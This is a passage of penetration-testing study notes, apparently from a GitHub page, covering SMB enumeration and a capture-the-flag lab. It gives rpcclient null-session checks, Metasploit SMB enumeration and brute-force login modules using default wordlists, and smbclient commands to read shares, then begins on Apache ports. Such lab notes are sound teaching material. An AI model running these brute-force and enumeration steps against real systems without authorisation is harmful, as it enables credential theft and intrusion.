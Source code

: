 9. **Using rpcclient determine whether anonymous connection (null session) is allowed on the samba server or not.**

```shell
rpcclient -U "" -N <target_IP>
```

<br>

### 5.3. SMB CTF

```shell
# Start Metasploit and create a new workspace.
workspace -a SMB_Enum
# Set a default IP for RHOSTS.
setg RHOSTS <target_IP>

# Use the following modules
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumshares
# The results shows shares for specific users, meaning we can potentially access these shares if we have or can obtain legitimate credentials.

# Anonymous connection is allowed since shares are displayed without requirement of password.

use auxiliary/scanner/smb/smb_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run

# Now we can try and check out the various shares and access and try access the files within these shares. For this purpose we can use a utility called SMB client, not part of the metasploit framework.

# New terminal
smbclient -L \\\\<target_IP>\\ -U admin # Enter the password.
smbclient  \\\\<target_IP>\\<share_name> -U admin # Enter the password.
ls
cd secret # or flag
get flag
exit
ls
cat flag
```

<br>

### 5.4. Apache Enumeration

**Apache** is one of the most widely used open-source web servers in the world, developed and maintained by the Apache Software Foundation. The main ports used for web servers are:
 - Port 80 (HTTP - HyperText Transfer Protocol)
- Port 443 (HTTPS - HyperText Transfer Protocol Secure)
- Port 8080 often used as an alternative to port 80 for HTTP traffic
- Port 8443 commonly used for HTTPS traffic as an alternative to port 443, often in environments where multiple HTTPS services need to run on the same machine
